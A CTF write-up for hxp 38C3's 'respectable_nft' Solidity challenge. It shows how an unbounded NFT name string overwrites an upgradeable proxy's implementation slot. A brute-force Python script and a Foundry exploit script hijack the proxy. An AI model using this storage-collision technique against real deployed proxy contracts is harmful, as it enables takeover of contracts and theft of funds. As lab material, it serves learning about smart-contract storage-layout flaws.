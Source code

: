```yaml
---
title: Blockchain - respectable_nft
description: 2024 | hxp 38C3 CTF | MSC
tags:
    - smart contract
    - solidity
    - storage layout
    - brute force
---
```


## Description

My favorite TikTok influencer told me about a great NFT project that is guaranteed to not be a scam. It even has this cool feature where you can name your token :^)

??? note "Setup.sol"

    ```js
    //SPDX-License-Identifier: Unlicense
    pragma solidity 0.8.20;

    import "./UpgradeableProxy.sol";
    import "./CryptoFlags.sol";

    contract Setup {
        CryptoFlags public cryptoFlags;

        constructor() payable {
            UpgradeableProxy proxy = new UpgradeableProxy();
            CryptoFlags impl = new CryptoFlags();
            proxy.upgradeTo(address(impl));
            cryptoFlags = CryptoFlags(address(proxy));
        }

        function isSolved() public view returns (bool) {
            return cryptoFlags.isSolved();
        }
    }
    ```

??? note "UpgradeableProxy.sol"

    ```js
    //SPDX-License-Identifier: Unlicense
    pragma solidity 0.8.20;

    contract UpgradeableProxy {
        // keccak256("owner_storage");
        bytes32 public constant OWNER_STORAGE = 0x6ec82d6c1818e9fe1ca828d3577e9b2dadd8d4720dd58701606af804c069cfcb;
        // keccak256("implementation_storage");
        bytes32 public constant IMPLEMENTATION_STORAGE = 0xb6753470eb6d4b1c922b6fc73d6f139c74e8cf70d68951794272d43bed766bd6;

        struct AddressSlot {
            address value;
        }

        function getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
            assembly {
                r.slot := slot
            }
        }

        constructor() {
            AddressSlot storage owner = getAddressSlot(OWNER_STORAGE);
            owner.value = msg.sender;
        }

        function upgradeTo(address implementation) external {
            require(msg.sender == getAddressSlot(OWNER_STORAGE).value, "Only owner can upgrade");
            getAddressSlot(IMPLEMENTATION_STORAGE).value = implementation;
        }

        function _delegate(address implementation) internal {
            assembly {
                // Copy msg.data. We take full control of memory in this inline assembly
                // block because it will not return to Solidity code. We overwrite the
                // Solidity scratch pad at memory position 0.
                calldatacopy(0, 0, calldatasize())

                // Call the implementation.
                // out and outsize are 0 because we don't know the size yet.
                let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)

                // Copy the returned data.
                returndatacopy(0, 0, returndatasize())

                switch result
                // delegatecall returns 0 on error.
                case 0 {
                    revert(0, returndatasize())
                }
                default {
                    return(0, returndatasize())
                }
            }
        }

        fallback() external payable {
            _delegate(getAddressSlot(IMPLEMENTATION_STORAGE).value);
        }
    }
    ```

??? note "CryptoFlags.sol"

    ```js
    //SPDX-License-Identifier: Unlicense
    pragma solidity 0.8.20;

    import "./ERC721_flattened.sol";

    contract CryptoFlags is ERC721 {
        mapping(uint256 => string) public FlagNames;
        constructor()
            ERC721("CryptoFlags", "CTF")
        {
        }

        function _beforeTokenTransfer(
            address from,
            address to,
            uint256 tokenId
        ) internal override virtual {
            require(from == address(0), "no flag sharing pls :^)");
            to; tokenId;
        }

        function setFlagName(uint256 id, string memory name) external {
            require(ownerOf(id) == msg.sender, "Only owner can name the flag");
            require(bytes(FlagNames[id]).length == 0, "that flag already has a name");
            FlagNames[id] = name;
        }

        function claimFlag(uint256 id) external {
            require(id <= 100_000_000, "Only the first 100_000_000 ids allowed");
            _mint(msg.sender, id);
        }

        function isSolved() external pure returns (bool) {
            return false;
        }
    }
    ```

## Solution

- The CryptoFlags is using a proxy, to make `isSolved()` return true, we have to update the value stored in the implementation slot, since the current logic contract will always return false.
- There are two possible ways to upgrade the contract, both of which require modifying specific slots in an unauthorized manner:
    - Directly modify the `IMPLEMENTATION_STORAGE` slot
    - Modify the `OWNER_STORAGE` slot, then call `upgradeTo()` to modify the `IMPLEMENTATION_STORAGE` slot
- Since mapping `FlagNames` occupies slot 6, through the `setFlagName()` function in the CryptoFlags contract, we can modify the storage slot at `keccak(abi.encode(id, 6))` or after `keccak(uint256(keccak(abi.encode(id, 6))))`, depending on the length of the string.

    ```js
    function setFlagName(uint256 id, string memory name) external {
        require(ownerOf(id) == msg.sender, "Only owner can name the flag");
        require(bytes(FlagNames[id]).length == 0, "that flag already has a name");
        FlagNames[id] = name;
    }

    function claimFlag(uint256 id) external {
        require(id <= 100_000_000, "Only the first 100_000_000 ids allowed");
        _mint(msg.sender, id);
    }
    ```

- If the target slot is at `keccak(abi.encode(id, 6))`, we can not modify it because `bytes(FlagNames[id]).length` is not zero. But it is possible that the target slot is close to `keccak(uint256(keccak(abi.encode(id, 6))))`. Luckily, the value of `IMPLEMENTATION_STORAGE` is not the keccak256 hash of "implementation_storage" and CryptoFlags limits the maximum value of `id`, we can traverse within this range.

    ```py
    from web3 import Web3
    from tqdm import tqdm

    owner_slot = int("6ec82d6c1818e9fe1ca828d3577e9b2dadd8d4720dd58701606af804c069cfcb", 16)
    impl_slot = int("b6753470eb6d4b1c922b6fc73d6f139c74e8cf70d68951794272d43bed766bd6", 16)

    for i in tqdm(range(100_000_001)):
        h = Web3.solidity_keccak(['uint256', 'uint256'], [i, 6])
        slot = int(Web3.solidity_keccak(['uint256'], [int(h.hex(), 16)]).hex(), 16)
        d = owner_slot - slot
        # the slot where `name` stored should not be too far from the target slot
        # to avoid reaching the block gas limit
        if d >= 0 and d <= 10000:
            print(i, h.hex(), hex(slot), d)
        d = impl_slot - slot
        if d >= 0 and d <= 10000:
            print(i, h.hex(), hex(slot), d)

    # Result: 56488061 fd873ebcc46cb76d491c36d05ef9b7b40d72903b955f8c3cc3bfceab0b7eccb7 0xb6753470eb6d4b1c922b6fc73d6f139c74e8cf70d68951794272d43bed766b49 141
    ```

- The result shows that there is one slot that is only 141 slots away from the `IMPLEMENTATION_STORAGE` slot. Thus, we can directly modify it and solve the challenge <3

??? note "Solve.s.sol"

    ```js
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.13;

    import {Script, console} from "forge-std/Script.sol";
    import "src/Setup.sol";

    contract Solved {
        function isSolved() external pure returns (bool) {
            return true;
        }
    }

    contract SolveScript is Script {
        function run() public virtual {
            Setup setup = Setup(vm.envAddress("SETUP"));
            CryptoFlags cryptoFlags = setup.cryptoFlags();
            uint256 id = 56488061;
            vm.startBroadcast(vm.envUint("PRIV"));
            cryptoFlags.claimFlag(id);
            cryptoFlags.setFlagName(id, string(abi.encodePacked(
                new bytes(141 * 32),
                abi.encode(address(new Solved()))
            )));
            vm.stopBroadcast();

            require(setup.isSolved(), "did not solve :'(");
        }
    }
    ```

### Flag

> hxp{n3v3r_7ru57_pr3c0mpu73d_v4lu35}

